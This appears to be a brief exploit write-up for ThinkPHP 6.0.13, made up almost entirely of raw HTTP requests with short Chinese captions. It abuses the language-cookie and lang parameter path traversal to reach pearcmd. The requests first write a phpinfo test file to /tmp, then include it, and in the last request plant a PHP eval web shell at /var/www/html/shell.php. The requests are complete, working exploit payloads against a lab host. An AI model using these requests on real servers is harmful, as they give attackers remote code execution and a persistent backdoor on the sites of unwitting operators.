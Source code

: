 ![]()

## TP - 6.0.13-Pearcmd x COOKIES

    
    
    GET /public/index.php?+config-create+/&/<?=phpinfo()?>+/tmp/3.php HTTP/1.1  
    Host: 192.168.36.128  
    Cache-Control: max-age=0  
    Upgrade-Insecure-Requests: 1  
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.0.0 Safari/537.36  
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9  
    Accept-Language: zh-CN,zh;q=0.9  
    Cookie: think_lang=../../../../../../../../../../../../../../usr/local/lib/php/pearcmd  
    Connection: close

![]()

查看是否成功

![]()

文件包含查看

    
    
    GET /public/index.php?lang=../../../../../../../../../../../../tmp/3 HTTP/1.1  
    Host: 192.168.36.128  
    Upgrade-Insecure-Requests: 1  
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.0.0 Safari/537.36  
    Sec-Purpose: prefetch;prerender  
    Purpose: prefetch  
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9  
    Accept-Language: zh-CN,zh;q=0.9  
    Cookie: think_lang=zh-cn  
    Connection: close

![]()

## TP - 6.0.13-Pearcmd x Getshell

    
    
    GET /public/index.php?lang=../../../../../../../../../../../../../../usr/local/lib/php/pearcmd&+config-create+/&/<?=@eval($_POST['cmd']);?>+/var/www/html/shell.php HTTP/1.1  
    Host: 192.168.36.128  
    Cache-Control: max-age=0  
    Upgrade-Insecure-Requests: 1  
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.0.0 Safari/537.36  
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9  
    Accept-Language: zh-CN,zh;q=0.9  
    Cookie: think_lang=zh-cn  
    Connection: close
